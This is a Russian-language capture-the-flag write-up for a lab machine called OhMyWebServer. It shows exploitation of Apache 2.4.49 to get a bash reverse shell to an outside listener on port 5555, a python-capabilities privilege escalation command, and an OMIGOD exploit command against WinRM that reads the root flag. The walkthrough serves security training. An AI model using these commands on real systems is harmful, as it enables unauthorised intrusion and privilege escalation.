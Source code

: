 # OhMyWebServer WriteUp (Medium)✅

Перейдя по ip адресу мы попадаем на страницу какого-то сайта, связаного с консалтинговыми услугами

<figure><img src="../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

Просканировав порты, мы модем узнать что на 80 порте находится **Apache-HTTP сервер**, при чем версия Apache - **2.4.49**

<figure><img src="../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

Зайдя на сайт exploit-db.com и прогуглив данную версию ПО Apache, мы можем найти эксплойт, с помощью которого сможем удаленно выполнять код

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Скачиваем данный экспойт и тестируем его работу

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>Перед использованием скрипта я создал текстовый файл <strong>ip.txt</strong>, куда вписал ip адрес машины 📌</p></figcaption></figure>

Если мы можем с помощью данного эксплойта выполнять какие-либо команды, то, следовательно, вместо команды ls можно вписать bash\_reverse\_shell и получить оболочку нашей машины

Подключив слушатель заранее, выполняем команду

`./50383.sh ip.txt /bin/sh 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1"'`

и получаем шелл от лица пользователя **daemon**

<figure><img src="../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Судя по странному набору букв и цифр после имени пользователя, мы находимся в докере 📌</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption><p>linpeas это подтвердил 📌</p></figcaption></figure>

Первый флаг, вероятнее всего, находится в папке root, но мы не имеем прав, чтобы в неё перейти, поэтому придётся выполнять эскалацию привилегий и получать **root**'a

C помощью linpeas'a мы узнаём, что можем проэксплуатировать **python capabilities**, с помощью команды `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'` получаем **root**'a в докере&#x20;

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Остаётся лишь вывести содержимое файла user.txt и получить первый флаг🚩

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Ничего, кроме внутреннего ip-адреса linpeas не нашёл, поэтому загружаем сканер nmap и сканируем порты (сканировать мы будем ip 172.12.0.1, т.к. 0.2 - это наш адрес, а предыдущий - хоста)

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Видим открытый 5986-й порт, который относится к **Windows Remote Management**

Данный сервис имеет уязвимость, которую мы можем проэксплуатировать с помощью **omigod**-экспойта

Создаём **.py** файл, куда копируем скрипт и так же загружаем на машину

Далее вводим команду `python3 file_name.py -t 172.17.0.1 -p 5986 -c "cat /root/root.txt"` и получаем второй флаг🚩
